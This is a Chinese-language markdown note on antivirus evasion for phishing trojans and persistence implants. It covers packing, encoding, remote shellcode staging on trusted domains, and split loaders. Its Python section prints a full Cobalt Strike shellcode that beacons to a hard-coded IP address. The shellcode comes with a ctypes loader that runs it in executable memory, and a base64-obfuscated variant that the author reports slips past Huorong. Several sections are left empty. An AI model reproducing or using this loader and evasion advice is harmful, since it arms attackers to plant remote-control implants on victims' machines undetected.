


# 免杀

> https://github.com/TideSec/BypassAntiVirus
>
> https://github.com/1y0n/av_evasion_tool  免杀生成工具

## 什么是免杀

- 免杀，也就是反病毒（AntiVirus）与反间谍（AntiSpyware）的对⽴⾯，英⽂为 Anti-AntiVirus（简写Virus AV），逐字翻译为“反-反病毒”，翻译为“反杀毒技术”。
- 病毒查杀分为动态，静态查杀。最难过的就是动态查杀，静态查杀主要是特征码查杀，这样代码混淆加密就行。
- 免杀方法主要为，


## 要求：

- 钓鱼木马：

	- 功能正常，伪装要好:

    - 能正常弹出你原本想让客户看到的东西，保证能正常上线，兼容大部分环境
    - 伪装：长文件名，修改exe显示的目标等

  - 短期免杀：
- 钓鱼马很容易被分析，最好是能够快速生成，保证每次文件md5与加密key都会改变，shellcode不建议远程加载。
- 维持马：
    - 长久免杀：
    - 体积小：可以使用分离免杀去减小木马体积，也可以通过劫持软件DLL。
    - 注意隐藏

## 免杀技巧

- 特征码：
- 去除特征：
    - 修改文件md5：
    - 修改敏感函数：

### 加壳免杀：

- **原理**

    - 说起软件加壳，简单地说，软件加壳其实也可以称为软件加密（或软件压缩），只是加密（或压缩）的方式与目的不一样罢了。壳就是软件所增加的保护，并不会破坏里面的程序结构，当我们运行这个加壳的程序时，系统首先会运行程序里的壳，然后由壳将加密的程序逐步还原到内存中，最后运行程序。
    - 当我们运行这个加壳的程序时，系统首先会运行程序的“壳”，然后由壳将加密的程序逐步还原到内存中，最后运行程序。这样一来，在我们看来，似乎加壳之后的程序并没有什么变化，然而它却达到了加密的目的，这就是壳的作用。
    - 加壳虽然对于特征码绕过有非常好的效果，加密壳基本上可以把特征码全部掩盖，但是缺点也非常的明显，因为壳自己也有特征。在某些比较流氓的国产杀软的检测方式下，主流的壳如VMP, Themida等，一旦被检测到加壳直接弹框告诉你这玩意儿有问题，虽然很直接，但是还是挺有效的。有些情况下，有的常见版本的壳会被直接脱掉分析。
    - 面对这种情况可以考虑用一切冷门的加密壳，有时间精力的可以基于开源的压缩壳改一些源码，效果可能会很不错。
    - 总得来说，加壳的方式来免杀还是比较实用的，特别是对于不开源的PE文件，通过加壳可以绕过很多特征码识别。

    **工具**：

    - 

    - 压缩壳，加密壳，
    - vmprotect

- 编码加密：
    - XOR：
    - AES

- 本地分离：
    - 将 shellcode与加加载器进行分离。 shellcode通过加密放置于文件中，加载器首先判断文件是指定的目录文件是否存在，如果不存在，则不做任何操作，直接退出。如果目标文件存在，则读取指定文件内容，再通过内置的ke去对文件内容进行解密，解密成功则加载 shellcode进内存，正常反弹she』l解密失败的话直接退出

- 远程分离：
    - 将 shellcode与加加载器进行分离。 shellcode通过加密放置于文件中，加载器首先判断文件是指定的目录文件是否存在，如果不存在，则不做任何操作，直接退出。如果目标文件存在，则读取指定文件内容，再通过内置的ke去对文件内容进行解密，解密成功则加载 shellcode进内存，正常反弹she』l解密失败的话直接退出

免杀工具：

- 掩日
- DarkGlD
- Foureye

杀软分析：

- 

常见问题：

- 分离免杀要考虑的向题？
    - 1.用尽可能可信的域名。例如在某些知名网站上上传含有 shellcode的图片。
    - 2.要考虑域名不解析的情况。曾遇到过因为目标机器无DNS导致域名无法解析，无法获取远程 shellcode的问题
    - 3.要考虑到P被封的情况，所以可以考虑木马使用DN方案。

## python免杀

> https://blog.csdn.net/whatday/article/details/120588389
>
> 免杀技术- Python分离免杀 - F0rmat的文章 - 知乎 https://zhuanlan.zhihu.com/p/492135330
>
> 会遇到python是32位/64，shellcode是32/64。主要还是x86和x64的环境问题。

如果目标服务器自带了python，那么我们可以执行python exp.py直接上线cs，不会被杀软发现。

### 步骤

cs生成一个pyhthon shellcode(64位)

- python加载这个shellcode，先申请一块内存，然后shellcode写入内存，然后程序跳转到该内存执行。

    - ```cmd
        import ctypes
        
        shellcode = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x46\x74\x4e\x00\xac\x2f\x31\x2a\xc6\x24\xa1\xf5\x9e\x47\x47\xc9\x18\x0d\xae\x2a\x49\xae\x3b\x18\xfa\x3e\x67\xf4\x00\xca\x0c\x5b\x0e\x9f\x3d\x1a\xad\xcd\xf6\x5c\x2d\x79\x5f\x5e\x4b\xc3\x43\xa1\x27\x3a\x04\x1e\xd3\x04\xe1\x1b\x59\xd9\x86\xb3\x56\x37\x11\x97\xa7\x0f\x79\x2c\x30\x7c\xb9\xe5\xe0\x28\x2f\x21\x8f\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x29\x0d\x0a\x00\x54\xee\xbd\xea\xaf\xb2\xd2\x22\xe5\xcc\xba\x7e\xd9\xe3\x99\xb2\xde\x12\x4a\x49\x92\xcf\x20\x8c\xf1\x6a\xb9\x18\x96\x1a\x42\x9f\xb5\x96\x35\xf6\xa9\x5c\x4e\x95\x54\x87\xef\x9e\x5e\xe0\xc8\xab\x89\x5e\x87\xe9\x13\xd0\x8a\xa0\x28\x5c\x9f\x1d\xcf\x6a\x7c\x60\x30\x1d\xb8\x90\xdf\x24\x90\xa8\xe8\xc3\x55\xe6\x22\x9f\x2a\xc7\x5f\xc4\x7e\x40\x6e\x3a\xe5\x77\x8f\x37\x1a\x7e\xc6\x8b\x41\x9e\x59\x29\x7d\x9e\xe5\x0d\x92\xc7\xc8\x2f\x61\x8a\xfb\xb3\x88\x3d\xb7\x90\xc5\xb8\xc5\x40\x02\x0a\x68\xab\xed\xb6\x07\x15\x4d\x01\x6b\x62\x06\x58\x2b\x64\x79\x7f\x4d\xa4\x5a\x18\x0d\xa9\xdb\x67\xeb\xda\x8c\x9e\x82\x56\x22\x79\xa9\xe0\xc2\x2a\x93\xe1\xfd\x61\xca\x47\x57\x8e\x00\x3f\xb6\xd3\x22\xbd\x87\xaa\xcd\x33\x70\xd1\x13\x63\x76\x77\x52\x59\x26\x31\xf5\x95\x59\xbf\x07\x74\xdf\xf5\xc5\x1f\xce\x18\x42\xd6\x7c\x43\xe4\x1a\xce\x66\x94\x51\x25\x84\x22\x2a\x3c\x9e\x54\x35\x14\xeb\xc0\x94\xe7\xce\xce\xec\x73\xdb\x5b\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x37\x32\x2e\x33\x31\x2e\x32\x33\x36\x2e\x38\x33\x00\x51\x09\xbf\x6d"
        
        
        ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
        rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
        ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(
            rwxpage), ctypes.create_string_buffer(shellcode), len(shellcode))
        handle = ctypes.windll.kernel32.CreateThread(
            0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0)
        ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
        ```

    - 生成exe文件

        - 

        - 直接会被火绒报毒，因为匹配到了特征码。

- 我们把shellloader base64加密一下

    - ```python
        import ctypes
        import base64
          
        shellcode = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x46\x74\x4e\x00\xac\x2f\x31\x2a\xc6\x24\xa1\xf5\x9e\x47\x47\xc9\x18\x0d\xae\x2a\x49\xae\x3b\x18\xfa\x3e\x67\xf4\x00\xca\x0c\x5b\x0e\x9f\x3d\x1a\xad\xcd\xf6\x5c\x2d\x79\x5f\x5e\x4b\xc3\x43\xa1\x27\x3a\x04\x1e\xd3\x04\xe1\x1b\x59\xd9\x86\xb3\x56\x37\x11\x97\xa7\x0f\x79\x2c\x30\x7c\xb9\xe5\xe0\x28\x2f\x21\x8f\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x29\x0d\x0a\x00\x54\xee\xbd\xea\xaf\xb2\xd2\x22\xe5\xcc\xba\x7e\xd9\xe3\x99\xb2\xde\x12\x4a\x49\x92\xcf\x20\x8c\xf1\x6a\xb9\x18\x96\x1a\x42\x9f\xb5\x96\x35\xf6\xa9\x5c\x4e\x95\x54\x87\xef\x9e\x5e\xe0\xc8\xab\x89\x5e\x87\xe9\x13\xd0\x8a\xa0\x28\x5c\x9f\x1d\xcf\x6a\x7c\x60\x30\x1d\xb8\x90\xdf\x24\x90\xa8\xe8\xc3\x55\xe6\x22\x9f\x2a\xc7\x5f\xc4\x7e\x40\x6e\x3a\xe5\x77\x8f\x37\x1a\x7e\xc6\x8b\x41\x9e\x59\x29\x7d\x9e\xe5\x0d\x92\xc7\xc8\x2f\x61\x8a\xfb\xb3\x88\x3d\xb7\x90\xc5\xb8\xc5\x40\x02\x0a\x68\xab\xed\xb6\x07\x15\x4d\x01\x6b\x62\x06\x58\x2b\x64\x79\x7f\x4d\xa4\x5a\x18\x0d\xa9\xdb\x67\xeb\xda\x8c\x9e\x82\x56\x22\x79\xa9\xe0\xc2\x2a\x93\xe1\xfd\x61\xca\x47\x57\x8e\x00\x3f\xb6\xd3\x22\xbd\x87\xaa\xcd\x33\x70\xd1\x13\x63\x76\x77\x52\x59\x26\x31\xf5\x95\x59\xbf\x07\x74\xdf\xf5\xc5\x1f\xce\x18\x42\xd6\x7c\x43\xe4\x1a\xce\x66\x94\x51\x25\x84\x22\x2a\x3c\x9e\x54\x35\x14\xeb\xc0\x94\xe7\xce\xce\xec\x73\xdb\x5b\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x37\x32\x2e\x33\x31\x2e\x32\x33\x36\x2e\x38\x33\x00\x51\x09\xbf\x6d"
         
        
       sl = "Y3R5cGVzLndpbmRsbC5rZXJuZWwzMi5WaXJ0dWFsQWxsb2MucmVzdHlwZSA9IGN0eXBlcy5jX3VpbnQ2NApyd3hwYWdlID0gY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5WaXJ0dWFsQWxsb2MoMCwgbGVuKHNoZWxsY29kZSksIDB4MTAwMCwgMHg0MCkKY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX3VpbnQ2NCgKICAgIHJ3eHBhZ2UpLCBjdHlwZXMuY3JlYXRlX3N0cmluZ19idWZmZXIoc2hlbGxjb2RlKSwgbGVuKHNoZWxsY29kZSkpCmhhbmRsZSA9IGN0eXBlcy53aW5kbGwua2VybmVsMzIuQ3JlYXRlVGhyZWFkKAogICAgMCwgMCwgY3R5cGVzLmNfdWludDY0KHJ3eHBhZ2UpLCAwLCAwLCAwKQpjdHlwZXMud2luZGxsLmtlcm5lbDMyLldhaXRGb3JTaW5nbGVPYmplY3QoaGFuZGxlLCAtMSk="
        sl = base64.b64decode(sl).decode()
        exec(sl)  #使用eval不行
       ```

     - 打成exe，未被火绒报毒。成功执行。但是windows defender直接报毒。

 - 

